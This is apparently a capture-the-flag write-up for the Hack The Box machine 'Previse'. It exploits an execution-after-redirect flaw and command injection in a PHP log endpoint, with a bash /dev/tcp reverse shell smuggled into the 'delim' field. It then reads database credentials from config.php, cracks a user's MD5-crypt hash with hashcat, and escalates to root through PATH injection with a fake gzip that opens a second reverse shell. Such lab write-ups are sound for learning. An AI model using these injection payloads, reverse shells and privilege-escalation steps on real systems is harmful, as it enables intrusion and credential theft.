

# Previse (Easy - Linux)

## Recon
### Nmap
```console
# nmap -Pn --open -sC -sV -p- 10.10.11.104
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-16 19:02 EST
Nmap scan report for 10.10.11.104
Host is up (0.037s latency).
Not shown: 65521 closed ports, 12 filtered ports
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Initial Access
### EAR Vulnearability (Execution After Redirect)
There was a misconfiguration where an attacker could ignore the redirects and retrieve the pages which were supposed to be available on successful login.

```html
HTTP/1.1 302 Found
Date: Mon, 17 Jan 2022 00:44:13 GMT
Server: Apache/2.4.29 (Ubuntu)
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
Location: login.php
Content-Length: 2801
Connection: close
Content-Type: text/html; charset=UTF-8


<!DOCTYPE html>
<html>
    <head>
        <meta http-equiv="content-type" content="text/html; charset=UTF-8" />
        <meta charset="utf-8" />
    
            
        <meta name="viewport" content="width=device-width, initial-scale=1.0" />
        <meta name="description" content="Previse rocks your socks." />
        <meta name="author" content="m4lwhere" />
        <link rel="shortcut icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="icon" href="/favicon.ico" type="image/x-icon" />
        <link rel="apple-touch-icon" sizes="180x180" href="/apple-touch-icon.png">
        <link rel="icon" type="image/png" sizes="32x32" href="/favicon-32x32.png">
        <link rel="icon" type="image/png" sizes="16x16" href="/favicon-16x16.png">
        <link rel="manifest" href="/site.webmanifest">
        <link rel="stylesheet" href="css/uikit.min.css" />
        <script src="js/uikit.min.js"></script>
        <script src="js/uikit-icons.min.js"></script>
   

<title>Previse Home</title>
</head>
<body>
    
<nav class="uk-navbar-container" uk-navbar>
    <div class="uk-navbar-center">
        <ul class="uk-navbar-nav">
            <li class="uk-active"><a href="/index.php">Home</a></li>
            <li>
                <a href="accounts.php">ACCOUNTS</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="accounts.php">CREATE ACCOUNT</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="files.php">FILES</a></li>
            <li>
                <a href="status.php">MANAGEMENT MENU</a>
                <div class="uk-navbar-dropdown">
                    <ul class="uk-nav uk-navbar-dropdown-nav">
                        <li><a href="status.php">WEBSITE STATUS</a></li>
                        <li><a href="file_logs.php">LOG DATA</a></li>
                    </ul>
                </div>
            </li>
            <li><a href="#" class=".uk-text-uppercase"></span></a></li>
            <li>
                <a href="logout.php">
                    <button class="uk-button uk-button-default uk-button-small">LOG OUT</button>
                </a>
            </li>
        </ul>
    </div>
</nav>

    <section class="uk-section uk-section-default">
        <div class="uk-container">
            <h2 class="uk-heading-divider">Previse File Hosting</h2>
            <p>Previse File Hosting Service Management.</p>
            <p>Don't have an account? Create one!</p>
        </div>
    </section>
    
<div class="uk-position-bottom-center uk-padding-small">
	<a href="https://m4lwhere.org/" target="_blank"><button class="uk-button uk-button-text uk-text-small">Created by m4lwhere</button></a>
</div>
</body>
</html>
```

There are several interesting pages:
```
* accounts.php - Account
* files.php - Files
* status.php - Management
* file_logs.php - Log data
```

### Account Registration
Adding Burp's Match and Replace rule:


Created user & login:
```
bigb0ss : password
```



### Command Injection (www-data)
Request
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 37
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=aev6d7kta8hb0v50gqq9lcfr1u
Upgrade-Insecure-Requests: 1

delim=bigb0ss;ping -c 1 10.10.14.17 #
```

ICMP ping request POC:
```
┌──(kali㉿kali)-[~]
└─$ sudo tcpdump -i tun0 icmp
[sudo] password for kali: 
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
22:15:43.782651 IP 10.10.11.104 > 10.10.14.17: ICMP echo request, id 2721, seq 1, length 64
22:15:43.782685 IP 10.10.14.17 > 10.10.11.104: ICMP echo reply, id 2721, seq 1, length 64
```

Reverse Shell:
```
POST /logs.php HTTP/1.1
Host: 10.10.11.104
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 71
Origin: http://10.10.11.104
Connection: close
Referer: http://10.10.11.104/file_logs.php
Cookie: PHPSESSID=aev6d7kta8hb0v50gqq9lcfr1u
Upgrade-Insecure-Requests: 1

delim=bigb0ss;bash -c 'bash -i >%26 /dev/tcp/10.10.14.17/9001 0>%261' #
```

```
┌──(kali㉿kali)-[~/htb/box/previse]
└─$ nc -lvnp 9001                           
listening on [any] 9001 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.104] 60552
bash: cannot set terminal process group (1517): Inappropriate ioctl for device
bash: no job control in this shell
www-data@previse:/var/www/html$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Privesc 
### MySQL DB Access (www-data --> m4lwhere)
Getting credentials for the MySQL DB:
```
www-data@previse:/var/www/html$ cat config.php
cat config.php
<?php

function connectDB(){
    $host = 'localhost';
    $user = 'root';
    $passwd = 'mySQL_p@ssw0rd!:)';
    $db = 'previse';
    $mycon = new mysqli($host, $user, $passwd, $db);
    return $mycon;
}

?>
```

```
mysql -h localhost -u root -p'mySQL_p@ssw0rd!:)'

...snip...

Database changed
mysql> show tables; 
+-------------------+
| Tables_in_previse |
+-------------------+
| accounts          |
| files             |
+-------------------+
2 rows in set (0.00 sec)

mysql> select * from accounts;
+----+----------+------------------------------------+---------------------+
| id | username | password                           | created_at          |
+----+----------+------------------------------------+---------------------+
|  1 | m4lwhere | $1$🧂llol$DQpmdvnb7EeuO6UaqRItf. | 2021-05-27 18:18:36 |
|  2 | bigb0ss  | $1$🧂llol$79cV9c1FNnnr7LcfPFlqQ0 | 2022-01-17 02:52:20 |
+----+----------+------------------------------------+---------------------+
2 rows in set (0.00 sec)
```

Cracking the password for the `m4lwhere` user:
```
┌──(kali㉿kali)-[~]
└─$ hashcat -m 500 m4lwhere.hash /usr/share/wordlists/rockyou.txt

...snip...

$1$🧂llol$DQpmdvnb7EeuO6UaqRItf.:ilovecody112235!
```

### user.txt
```
m4lwhere@previse:~$ whoami
m4lwhere
m4lwhere@previse:~$ cat user.txt 
822c__REDACTED__7ba71
```

### Path Injection (m4lwhere --> root)
```
m4lwhere@previse:~$ sudo -l
[sudo] password for m4lwhere: 
User m4lwhere may run the following commands on previse:
    (root) /opt/scripts/access_backup.sh
m4lwhere@previse:~$ 
m4lwhere@previse:~$ cat /opt/scripts/access_backup.sh
#!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz
```

The `access_backup.sh` is calling `gzip` without the full path. We can create a reverse shell filename called as `gzip` in another location and update the `$PATH` to call our `gzip` file first. 
```
m4lwhere@previse:/dev/shm$ ls -la
total 4
drwxrwxrwt  2 root     root       60 Jan 17 03:54 .
drwxr-xr-x 19 root     root     3880 Jan 16 23:40 ..
-rw-rw-r--  1 m4lwhere m4lwhere   42 Jan 17 03:54 gzip
m4lwhere@previse:/dev/shm$ cat gzip
bash -i >& /dev/tcp/10.10.14.17/9002 0>&1
m4lwhere@previse:/dev/shm$ export PATH=/dev/shm:$PATH
m4lwhere@previse:/dev/shm$ echo $PATH                
/dev/shm:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin
```

Making the newly created `gzip` as execuatable:
```
m4lwhere@previse:/dev/shm$ chmod +x gzip
m4lwhere@previse:/dev/shm$ sudo /opt/scripts/access_backup.sh
```

### root.txt
```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 9002
listening on [any] 9002 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.11.104] 36132
root@previse:/dev/shm# id
id
uid=0(root) gid=0(root) groups=0(root)
root@previse:/dev/shm# cat /root/root.txt
cat /root/root.txt
24f7__REDACTED__7b04
```